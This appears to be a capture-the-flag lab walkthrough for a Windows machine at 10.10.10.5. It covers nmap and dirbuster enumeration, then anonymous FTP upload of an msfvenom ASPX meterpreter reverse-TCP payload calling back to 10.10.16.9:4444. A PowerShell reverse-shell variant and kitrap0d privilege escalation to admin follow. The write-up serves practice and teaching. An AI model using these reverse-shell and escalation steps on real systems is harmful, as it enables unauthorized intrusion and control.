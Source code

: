 # Enumeration

- we use nmap to enumerate `nmap -p- -A -T4 10.10.10.5`![](attachment/b7cf63eb8c6ea51d86bad5ccb3c8dc1f.png)
- We found anonymous access in ftp
- We found a website hosted on the IP (poor hygiene) ![](attachment/f778a60dd8010e74464e3e2141b07f8d.png)
- using *dirbuster* to bust the directories:![](attachment/0715e3cd286726b8c2def1a6f181be9c.png) We found nothing : (
### FTP
We can anonymously login into ftp and upload files:**![](attachment/67d502c19c3c0856ceb60eca4d6888b3.png)
We can exploit this and use to our advantage
# Exploitation
- We can use this cheatsheat: https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom and use the ASP/x payload.
- To output the ex.aspx file with the payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f aspx > ex.aspx `
- we use `msfconsole` to listen on port 4444
- upload to ftp by binary preferably. ![](attachment/40025786967ebd9c87b2dcf1c8eda781.png)
- WE GET A METERPRETER SHELL!!!!
	-![](attachment/e309c275f762cf167d314aa32e6ac6a9.png)
- we can als0 use `msfvenom -p windows/powershell/powershell_reverse_tcp LHOST=10.10.16.9 ` to gain access without metasploit.
- We can use post exploit called suggester: ![](attachment/d5d0fc85ef20a7e45f6cd086614fdcce.png)
- Post exploitation using kitrap0d for privilege escalation we got admin access![](attachment/132af84569da1d754fd6b02a49fc1b5c.png)